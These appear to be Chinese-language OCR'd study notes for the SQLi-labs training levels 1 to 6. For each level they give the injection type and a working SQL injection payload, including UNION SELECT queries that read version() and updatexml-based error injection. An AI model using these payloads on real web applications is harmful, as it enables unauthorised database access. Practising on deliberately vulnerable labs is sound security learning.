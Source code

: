 > **字符型注入**
>
> **单引号**
>
> **?id=1**
>
> **?id=1' and 1=2 union select 1,version(),3** **--+**

### **Less-02**

> **数字型注入**
>
> **?id=-2 union select 1,2,version()**

 

### **Less-03**

> **字符型注入**
>
> **near ''****1'****')** **LIMIT 0,1' at line 1**
>
> **')**
>
> **?id=1') and 1=2 union select 1,2,version()--+**
>
>  

### **Less-04**

> **字符型注入**
>
> **")**
>
> **?id=2") and 1=2 union select 1,2,version()--+**

### **Less-05**

> **没有回显，有报错**
>
> **字符型注入**
>
> **单引号**
>
> **?id=3' and updatexml(1,concat(0x5e,version(),0x5e),1)--+**

### **Less-06**

> **没有回显，有报错**
>
> **字符型注入**
>
> **"**
>
> **?id=1" and updatexml(1,concat(0x5e,****(select version())****,0x5e),1)--+**
